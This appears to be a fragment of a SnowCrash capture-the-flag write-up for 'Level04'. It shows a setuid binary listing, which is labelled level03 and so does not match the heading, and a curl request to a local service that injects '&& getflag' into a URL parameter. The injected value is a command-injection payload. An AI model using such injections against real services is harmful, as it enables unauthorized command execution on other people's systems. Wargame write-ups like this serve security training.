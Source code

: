 
# Level04

```bash
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

```bash
curl -H "Accept: text/html" -H "Content-type: text/html" -X GET http://localhost:4747/?x=Hello+World+%26%26+getflag
```
